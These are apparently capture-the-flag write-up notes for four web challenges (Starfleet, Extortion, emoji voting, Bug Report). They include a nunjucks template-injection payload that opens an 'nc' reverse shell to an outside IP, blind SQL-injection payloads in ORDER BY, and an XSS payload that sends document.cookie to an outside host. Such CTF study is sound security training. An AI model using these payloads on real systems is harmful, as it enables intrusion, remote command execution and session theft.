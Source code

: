 - https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/
- https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.heredoc

### Starfleet: CHTB{I_can_f1t_my_p4yl04ds_3v3rywh3r3!}
- provided with source for nodejs app that accepts an email address and uses nunjucks templating engine
- email is rendered into string by nunjucks, leaving it vulnerable to template injection
- possible to reconstruct a function using the "range.constructor" method within the nunjucks execution environment
- built repl for quick payload creation and response parsing
- can then read global object using "Object.getOwnPropertyNames(global)"
- missing "mainModule" from "global.process.mainModule", but the global object has another property named "globalThis"
- accessing "mainModule" through "global.globalThis.process" allows for recovery of "require" and ability to import "child_process" module
- can now get command execution with "execSync" within "child_process" module
- couldn't get production server to send to email address, so spawned reverse shell with "nc"
- bopije7405@gridmire.com {{range.constructor('return global.globalThis.process.mainModule.require("child_process").execSync("nc 104.238.133.245 8080 -e /bin/sh")')()}}
- http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
- https://mozilla.github.io/nunjucks/templating.html

### Extortion: CHTB{th4ts_4_w31rd_3xt0rt10n_@#$?}
- LFI vulnerability through "f" parameter
- "send.php" endpoint makes POST requests to the server, but all result in same response
- have a PHPSESSID cookie, can use it to search for the session log file
- eventually found it to be located at "/tmp/sess_<id>"
- make a request to the "send.php" input to inject PHP into the log and then execute it with LFI
- https://www.exploit-db.com/papers/13017
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi-to-rce-via-php-sessions
- https://highon.coffee/blog/lfi-cheat-sheet/

### emoji voting: CHTB{order_me_this_juicy_info}
- provided with source code for web app that reveals "order" post data is sent to "/api/list" endpoint and directly injected into SQL query after "ORDER BY"
- use CASE statement in sqlite as boolean test with LIKE string wildcard functionality to reveal name of flag table and then flag character by character
- if results are sorted by id, then the guessed character was correct
- sqlite information table is located in sqlite_master rather than information_schema.tables
- "(case when (select 1 from sqlite_master where tbl_name like 'flag_%') then id else count end) asc"
- "(case when (select 1 from <flag_tbl_name> where flag like 'CHTB{%') then id else count end) asc"
- https://portswigger.net/support/sql-injection-in-the-query-structure
- https://www.sqlitetutorial.net/sqlite-case/

### Bug Report: CHTB{th1s_1s_my_bug_r3p0rt}
- able to submit URLs that the bot then visits
- goal is to leak the flag cookie for the bug report site
- requesting a page that doesn't exist prints the name of site in the 404 page
- reflected XSS vulnerability allows you to insert script tag on the 404 page to send cookie away
- http://127.0.0.1:1337/<script>fetch("http://104.238.133.245:9001/?" + document.cookie)</script>
